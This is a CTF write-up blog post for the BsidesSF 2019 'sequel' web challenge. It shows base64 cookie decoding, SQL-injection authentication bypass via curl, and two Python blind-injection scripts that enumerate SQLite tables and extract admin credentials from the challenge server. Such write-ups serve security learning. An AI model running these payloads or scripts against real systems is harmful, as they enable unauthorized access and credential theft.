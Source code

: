 ```yaml
---
layout:     post
title:      'BsidesSF CTF 2019 - sequel'
date:       2019-03-07 0:00:00
author:     'W3ndige'
permalink: /:title/
category: 'Write-Ups'
---
```


BsidesSF was a great CTF, but as I could not finish many tasks withing the duration of the competition, I decided to come back to the ones with which I struggled the most. Here's my write up for ***sequel***, which is cool ***web*** challenge rated ***200*** points. 

```text
Location - https://sequel-9cba4c8e.challenges.bsidessf.net/
```

Firstly, we are given a link to the a service with a login form right at the index page. During the initial phase of my attack, I wanted to find some vulnerability in the form itself, but [@yodak5](https://twitter.com/yodak5) found that you can easily log in with a password combination of `guest:guest`. 

![Login Page](/img/bsidessf/sequel-login.png){:class="img-responsive center-block"}

After logging in, we can see a group of ratings for some hackers movies. One interesting thing is that line `Maybe the admin likes it too?`, which somehow gives us a hint that we should look for an admin user. 

![Movies Database](/img/bsidessf/sequel-database.png){:class="img-responsive center-block"}

Another interesting thing is a cookie that we're assigned after logging in.

```text
1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9
```

Decoding it from `base64` gives us `JSON` data of our username and password. 

```text
[w3ndige@main sequel]$ echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9" | base64 -d
{"username":"guest","password":"guest"}
```

And that's when I've hit the wall and could not get further into the challenge during the CTF. But coming back to it, with clear brain, I've decided to check some common vulnerabilites and one thing I've noticed was `Server Error` while checking for ***SQL Injection***. I've immedietaly started tinkering with it.  

```
[w3ndige@main sequel]$ echo '{"username":"unknown\" OR \"1\"=\"2","password":"guest"}' | base64
eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjIiLCJwYXNzd29yZCI6Imd1ZXN0In0K
[w3ndige@main sequel]$ curl --cookie "1337_AUTH=eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjIiLCJwYXNzd29yZCI6Imd1ZXN0In0K" https://sequel-9cba4c8e.challenges.bsidessf.net/sequels
Invalid user.
```

In this example, our output is correct and we get `Invalid user` message. But once we change `2` to `1`, we are able to bypass the check. 

```html
[w3ndige@main sequel]$ echo '{"username":"unknown\" OR \"1\"=\"1","password":"guest"}' | base64
eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjEiLCJwYXNzd29yZCI6Imd1ZXN0In0K
[w3ndige@main sequel]$ curl --cookie "1337_AUTH=eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjEiLCJwYXNzd29yZCI6Imd1ZXN0In0K" https://sequel-9cba4c8e.challenges.bsidessf.net/sequels

<!doctype html>
<html>
<body class='text-center'>

<h2>Sequel Movie Database</h2>
<div class="sequels-container">
  <table class="sequels table">
    <thead>
      <tr>
        <th>Movie</th>
        <th>Rating</th>
        <th>Private Note</th>
      </tr>
    </thead>
    <tbody>
        <tr>
          <td class='name'>Hackers</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>War Games</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>Swordfish</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>Sneakers</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>The Net</td>
          <td class='star-rating'><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
    </tbody>
  </table>
</div>

  </body>
</html>
```

You can see that we're logged in and the values of notes changed, now we can't see any note for the films. After a little bit of thinking I've came up with an idea to use blind sql injection to try and crawl the database as we get different responses - `Invalid login` if we get a false and otherwise - good page. 

But firstly, we have to find out what database engine it uses inside, whether it's ***MySQL***, ***SQLLite*** or something completely different. My solution was to just slighlty modify two versions of exploits, each made for each of those two engines and just hope some will find something. And luckily for me, it was ***SQLLite***. 

Let's start with the succesful payload. 

{% raw %}
```json
{{"username":"\" OR EXISTS(SELECT name FROM sqlite_master WHERE name LIKE \"a%\" limit 1) OR \"","password":"guest"}}
```
{% endraw %}

Here we use `EXISTS` function to see if we get any result from the subquery that will select every name from the `sqlite_master`. In addition it checks if the name starts with a provided letter, in this example, `a`.

As we don't want to do this manually, let's write a simple Python script.

{% raw %}
```python
import requests
import base64
import string
import sys

out = ""

while True:
    for letter in string.printable:
        tmp = out + letter

        payload = r'{{"username":"\" OR EXISTS(SELECT name FROM sqlite_master WHERE name LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')

        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get('https://sequel-9cba4c8e.challenges.bsidessf.net/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```
{% endraw %}

During the first run, we get a `notes` table, but we can still look for others by just ignoring `n` letter. Add this snippet just before the `payload` - `if letter == 'n': continue`. 

```text
[w3ndige@main sequel]$ python exploit.py 
notes%
```

With this methodology, I've found `reviews` table. 

```text
[w3ndige@main sequel]$ python exploit.py 
reviews%
```

At this point I wanted to extract information from this table but could not find any column name that would succesfuly execute my query. Luckily, I've found another table worth noticing.

```text
[w3ndige@main sequel]$ python exploit.py 
uSeRiNfo%
```
Letters are in mixed cases as I've ignored the ones that found the tables previously. Luckily our `LIKE` statement isn't case sensitive so we can replace the letters with the lower case. 

If we have `userinfo` table, we can now try to extract the usernames and passwords. We have to remember that `guest` is already in the database, so that's a letter to ignore. 

{% raw %}
```python
import requests
import base64
import string
import sys

out = ""

while True:
    for letter in string.printable:
        tmp = out + letter

        if letter == 'g': continue

        payload = r'{{"username":"\" OR EXISTS(SELECT username FROM userinfo WHERE username LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')

        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get('https://sequel-9cba4c8e.challenges.bsidessf.net/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```
{% endraw %}

With that script we can get username, and password. Just change the username to password.

```
[w3ndige@main sequel]$ python exploit.py 
sequeladmin%%
[w3ndige@main sequel]$ python exploit.py 
f5ec3af19f0d3679e7d5a148f4ac323d%%
```

Now we can log in with this credentials and flag is right there.

![Flag](/img/bsidessf/sequel-flag.png){:class="img-responsive center-block"}
